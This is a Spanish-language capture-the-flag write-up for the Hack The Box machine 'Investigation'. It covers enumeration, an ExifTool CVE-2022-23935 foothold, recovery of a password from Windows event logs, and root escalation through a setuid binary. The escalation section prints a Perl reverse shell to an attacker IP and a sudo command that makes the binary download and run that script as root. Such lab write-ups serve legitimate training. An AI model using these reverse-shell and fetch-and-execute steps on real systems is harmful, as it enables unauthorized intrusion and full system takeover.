





# 🏁 Investigation

<figure><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/525">Investigation</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.11.197</td><td></td></tr><tr><td>Sistema simulado: </td><td>Ubuntu</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>ExifTool</td><td></td></tr><tr><td>CVEs:</td><td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-23935">CVE 2022-23935</a></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos el ejercicio lanzando un nmap a la IP de la máquina para comenzar a descubrir los puertos y servicios que hay abiertos.&#x20;

```bash
nmap -sCV 10.10.11.197 -O -p-
```

<figure><figcaption></figcaption></figure>

En este punto tenemos que ver cual es la página web de la máquina, para ello, como hemos visto que viene configurado en el puerto 80 en la petición de nmap usaremos el dominio `eForenzics.htb` y lo configuraremos en el fichero `/etc/hosts` . En este punto podremos ver la página web desplegada.

<figure><figcaption></figcaption></figure>

Observamos que dentro de la web existe un "servicio gratuito" que simula un analizador forense de imágenes. Realizamos una prueba.

<figure><figcaption></figcaption></figure>

### 2. POC y explotación de Exiftool

En este punto nos damos cuentas de que la página ejecuta [Exiftool ](https://exiftool.org/)y nos devuelve un reporte en formato TXT por pantalla, por lo que debemos empezar a buscar una forma de vulnerar este Exiftool 12.37  ya que es una entrada potencial. Tras una investigación encontramos el CVE 2022-23935 el cual parece ser potencialmente explotable en esta máquina.  En el siguiente Github podemos encontrar una prueba de Concepto (POC) de la explotación de la vulnerabilidad.



Por otro lado hemos encontrado el exploit de 0xFTW el cual usaremos en nuestro caso para intentar ejecutar la vulnerabilidad. Seguimos los pasos de instalación de descarga y preparación del exploit como viene indicado, aunque encontramos un par de repositorios con exploits ya montados que no conseguimos hacer funcionar correctamente.&#x20;

La siguiente prueba de concepto es muy interesante y sencilla para entender el funcionamiento.



Aunque nosotros utilizaremos el siguiente generador de la shell en un fichero que subiremos mediante esta herrmienta.&#x20;



Solo debemos de seguir los pasos y ejecutar la herramienta apuntando hacia una IP y puerto que queramos levantar. Esto nso generará un fichero que deberemos de subir a la web y que automáticamente nos dará acceso con www-data.&#x20;

<figure><figcaption></figcaption></figure>

### 3. Escalada a usuarios del sistema

En este punto y ya con acceso a ww-data deberemos de intentar escalar al usuario "smorton" el cual entendemos que tendrá mayores privilegios que nosotros.&#x20;

Investigando los diferentes directorios que tenemos activos en la máquina descubrimos que existe una carpeta interesante con archivos que nos llaman la atención, entre ellos un correo electrónico.

<figure><figcaption></figcaption></figure>

Debemos de descargarnos este archivo en nuestro ordenador para desde ahí analizarlo con mayor facilidad. Una vez lo tenemos podemos leerlo mediante Outlock o un [visualizador](https://products.groupdocs.app) de este tipo de archivos.&#x20;

<figure><figcaption></figcaption></figure>

Al ver el contenido del archivo podemos visualizar el siguiente contenido.&#x20;

<figure><figcaption></figcaption></figure>

Como vemos existe un archivo adjunto el cual no podemos ver, pero mediante [Ecryptomatic ](https://www.encryptomatic.com/)conseguimos descargarlo.

<figure><figcaption></figcaption></figure>

El fichero que obtenemos es security.evtx lel cual es un fichero extraido dle visor de eventos de windows por lo que necesitaremos una herramienta para visualizarlo.

<figure><figcaption></figcaption></figure>

Para exportar el archivo security.evtx usaremos&#x20;



```bash
pip install python-evtx
```

Una vez instalado evtx ejecutaremos la conversión del archivo.

```bash
python evtx_dump.py /home/kali/Escritorio/security.evtx > /home/kali/Escritorio/1.evtxdump
```

En ese momento ya podremos ver en XML el archivo y utilizaremos un editor de texto para observar en él e intentar encontrar información relevante.&#x20;

<figure><figcaption></figcaption></figure>

Revisando en los logs encontraremos una pass la cual utilziaremos para loguearnos por ssh al usuario smorton consiguiendo acceso y visualizando la flag del usuario.&#x20;

<figure><figcaption></figcaption></figure>

### 4. Escalada de privilegios

En este punto nos encontramos con el usuario smorton y debemos de realizar una investigación dentro de los directorios para intentar llegar a realizar la escalada.&#x20;

Al empezar nos llama la atención el fichero /usr/bin/binary el cual podremos utilizar.&#x20;

<figure><figcaption></figcaption></figure>

Nos enviamos el binario a nuestro ordenador para analizarlo&#x20;

<figure><figcaption></figcaption></figure>

En este punto decompilaremos el binario para analizarlo y ver sus partes. Podemos usar para ello [Dogbolt](https://dogbolt.org).

<figure><figcaption></figcaption></figure>

```perl
nt32_t main(int32_t argc, char** argv, char** envp)
{
    if (argc != 3)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    if (getuid() != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    if (strcmp(argv[2], "lDnxUysaQn") != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    puts("Running... ");
    FILE* rax_8 = fopen(argv[2], &data_2027);
    int64_t rax_9 = curl_easy_init();
    int32_t var_40 = 0x2712;
    curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712);
    int32_t var_3c = 0x2711;
    curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711);
    int32_t var_38 = 0x2d;
    curl_easy_setopt(rax_9, 0x2d, 1, 0x2d);
    if (curl_easy_perform(rax_9) != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    int64_t rax_25 = snprintf(nullptr, 0, &data_202a, argv[2]);
    char* rax_28 = malloc((rax_25 + 1));
    snprintf(rax_28, (rax_25 + 1), &data_202a, argv[2]);
    int64_t rax_37 = snprintf(nullptr, 0, "perl ./%s", rax_28);
    char* rax_40 = malloc((rax_37 + 1));
    snprintf(rax_40, (rax_37 + 1), "perl ./%s", rax_28);
    fclose(rax_8);
    curl_easy_cleanup(rax_9);
    setuid(0);
    system(rax_40);
    system("rm -f ./lDnxUysaQn");
    return 0;
}
```

Analizando el código entendemos que existen 4 pasos:

1. Se comprueba si se puede ejecutar o no.
2. Se comprueba si el usuario puede ejecutar le código como root o por el contrario no.
3. Comprueba si el argumento es `"lDnxUysaQn"`
4. Se abre un fichero con curl el cual ejecuta el segundo parámetro con perl.


Con toda esta información vamos a preparar una estrategia para llegar a ser root en la máquina.

1. Crearemos un archivo de perl con una revershell de Kali en nuestra máquina.&#x20;

```perl
use Socket;
$i="[IP]";
$p=[PORT];
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
 open(STDIN,">&S");open(STDOUT,">&S");
 open(STDERR,">&S");exec("/bin/bash -i");
};
```

2. Levantaremos un servidor de python en el mismo directorio que tengamos el archivo con la shell.

```bash
python -m http.server 80 
```

3. Ejecutaremos en la máquina con el usuario smorton la siguiente ruta aprovechándonos del análisis sobre el código Perl realizado.

```bash
sudo /usr/bin/binary [IP]/shell.pl lDnxUysaQn
```

Al ejecutarlo conseguiremos acceder como root a la máquina, acabando la máquina y obteniendo la flag de root.&#x20;

<figure><figcaption></figcaption></figure>



Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)

